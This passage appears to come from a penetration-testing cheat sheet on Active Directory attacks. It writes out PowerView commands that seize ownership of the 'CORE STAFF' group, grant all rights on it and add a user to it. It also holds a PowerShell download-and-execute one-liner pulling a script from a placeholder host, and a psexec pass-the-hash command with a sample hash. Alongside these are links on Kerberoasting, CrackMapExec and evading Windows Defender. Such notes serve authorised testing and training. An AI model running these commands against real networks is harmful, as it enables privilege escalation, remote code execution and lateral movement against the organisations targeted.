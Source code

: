 ```bash
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity User -Cred $cred
```

Followed by granting all rights via the ACL

```bash
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity User -Cred $cred -Rights All
```

Finally, add him into the group

```bash
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'User' -Cred $cred
```

### PowerShell Empire

[https://hackmag.com/security/powershell-empire/](https://hackmag.com/security/powershell-empire/)

### Kerberoasting (SPN)

[https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/](https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/)

[https://medium.com/@minix9800/evade-windows-defender-lateral-movement-to-domain-administrator-detection-e09bad251dfc](https://medium.com/@minix9800/evade-windows-defender-lateral-movement-to-domain-administrator-detection-e09bad251dfc)

```bash
START /B powershell -c "iex (New-Object System.Net.Webclient).DownloadString('http://%domain%/%psfile%');"
```

Kerberos Cheatsheet

[https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Crackmapexec cheat sheet

[https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

### Pass-the-Hash all you need to know

[https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

[https://blog.netwrix.com/2021/11/30/passing-the-hash-with-mimikatz/](https://blog.netwrix.com/2021/11/30/passing-the-hash-with-mimikatz/)

```bash
python psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@$ip
```

### GMSA Passwords Retrieval
